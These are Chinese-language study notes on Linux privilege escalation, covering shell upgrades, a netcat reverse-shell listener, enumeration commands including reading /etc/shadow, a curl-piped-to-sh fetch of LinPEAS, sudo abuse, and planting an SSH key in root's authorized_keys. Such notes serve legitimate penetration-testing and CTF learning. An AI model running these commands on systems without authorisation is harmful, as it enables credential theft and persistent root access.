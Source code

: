 # Linux提权小记

## 运行 Linpeas 脚本以枚举远程服务器

```
    ./linpeas.sh
```

## 切换完整 Bash

```
python3 -c 'import pty;pty.spawn("/bin/bash");'

CTRL + Z
stty raw -echo
fg
export TERM=xterm-color

OR

rlwrap nc -lvnp <port>
```

## 手工枚举

```
id：显示当前⽤户的 UID（⽤户 ID）、GID（组 ID）以及所属的其他组的信息
who：显示当前登录的⽤户及相关信息，如登录时间、终端等
whoami：显示当前⽤户的⽤户名
w：提供关于当前登录⽤户的详细信息，包括他们在做什么以及系统的负载信息
last:：显示系统最近的登录记录
```


```
uname -a：为我们提供关于系统使⽤的内核的附加详细信息。在寻找可能导致提权的任何潜在内核漏洞时，这将⾮常有⽤
lsb_release -a：这个命令⽤于显示Linux标准基础（LSB）的发⾏信息。 -a 选项表示显示所有
可⽤信息。它将显示诸如发⾏编号、发⾏名称、发⾏描述等信息
cat /proc/version ：这个命令⽤于显示内核版本和编译信息。 /proc/version ⽂件包含了内核
版本、编译器版本和其他相关信息。要查看是否安装了GCC就可以⽤这条命令
cat /etc/issue：这个命令⽤于查看系统的发⾏版本信息。 /etc/issue ⽂件包含了操作系统发⾏版的名称和版本
cat /etc/*-release：这个命令⽤于查看系统发⾏版的详细信息。它会搜索 /etc/ ⽬录下所有以
-release 结尾的⽂件，并显示它们的内容。这些⽂件通常包含操作系统的发⾏名称、版本、代号等信息
```


```
ip a:旧版命令ifconfig,这些命令为我们提供有关⽹卡、⽹络配置的信息。多张⽹卡配合路由信息可以发现内⽹⽹段
ip route：⽤于查询路由表，route是过时的命令
ip neigh：⽤于查询邻居表
arp -a：则⽤于显示ARP缓存，有些⼈⽤它作内⽹主机发现
```


```
hostname:查看机器主机名，新版内核linux可以用hostnamectl
```


```
getcap -r / 2>/dev/null:关于Linux capabilities ，它为进程提供了⼀部分可⽤的 root 权限
⼦集。有效地将 root 权限划分成较⼩且独特的单元。然后，可以独⽴地将这些单元授予进程。这样，权限集合就会减少，降低了被利⽤的⻛险
```


```
ls -liah:列出详细隐藏信息
history:历史记录
```


```
cat /etc/passwd
cat /etc/shadow
cat /etc/crontab:自动任务
echo $PATH
env:环境变量
ps -ef:查看进程
ps axjf ：查看进程树
```


```
netstat -a ：显示所有正在监听的端⼝和已建⽴的连接。
netstat -at 或 netstat -au 也可⽤于分别列出TCP或UDP协议。
netstat -l ：列出处于“监听”模式的端⼝。这些端⼝是打开的，并准备接受传⼊的连接。
可以将其与“t”选项⼀起使⽤，仅列出使⽤TCP协议监听的端⼝
netstat -s ：按协议列出⽹络使⽤统计数据（如下所示）也可以与 -t 或 -u 选项⼀起使⽤以限制
输出到特定协议
netstat -tp ：列出服务名称和PID信息的连接。
netstat -i ：显示接⼝统计信息。我们在下⾯看到“eth0”和“tun0”⽐“tun1”更活跃
```


```
find / -perm -u=s -type f 2>/dev/null ：查找设置了SUID位的⽂件，这使我们可以以⽐当前⽤
户更⾼的特权级别运⾏⽂件
```


```
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp tmux
screen 2>/dev/nul
```
![[Pasted image 20250504164902.png]]

```
cat /etc/fstab:检测未挂载的⽂件系统
```




## 自动化枚举
### LinPEAS

全称为Linux Privilege Escalation Awesome Script，是⼀个⽤来搜索类unix主机上可能
的提权路径的⾃动化脚本。
Github:https://github.com/peass-ng/PEASS-ng
```
curl -L https://github.com/carlospolop/PEASSng/releases/latest/download/linpeas.sh | sh
```

### LinEnum
⼀个流⾏的 Linux 本地枚举脚本，⽤于收集有关系统的各种信息，识别不安全的配置，
提取可⽤于提升权限的漏洞信息
Github:https://github.com/rebootuser/LinEnum

### linux-smart-enumeration (lse)
这是⼀个具有模块化功能的 Linux 本地枚举脚本它可在不同的等级上运⾏以获取不同详细程度的信息
Github:https://github.com/diego-treitos/linux-smart-enumeration

### linux-exploit-suggester
该⼯具主要⽤于识别 Linux 系统中可能存在的可利⽤的漏洞，
以帮助⽤户提升权限。
Github:https://github.com/The-Z-Labs/linux-exploit-suggester

### Linuxprivchecker
⼀个⽤于检查 Linux 系统潜在安全问题的 Python 脚本，
包括⽂件权限、系统服务和 SUID ⼆进制⽂件等。 
Github:https://github.com/sleventyeleven/linuxprivchecker

### unix-privesc-check
这个脚本主要⽤于识别 类UNIX 系统中可能的权限升级路径，
通过检查⽂件权限、系统配置等⽅⾯的问题
Github:https://github.com/pentestmonkey/unix-privesc-check




---

## sudo
### 列出可用sudo权限
    sudo -l
### 用sudo运行命令
    sudo -u Enil /bin/echo Hello World!
### 切换到root用户（如果我们有访问sudo su的权限）
    sudo su -

---

## 非对称加密
### 创建新的SSH密钥
    ssh-keygen -f key
### 将生成的公钥添加到用户
    echo "ssh-rsa AAAAB...SNIP...M= enil@aaa">> /root/.ssh/authorized_keys
### 使用生成的私钥SSH连接到服务器
    ssh root@10.10.10.10 -i key

### 枚举脚本
	PEASS

---
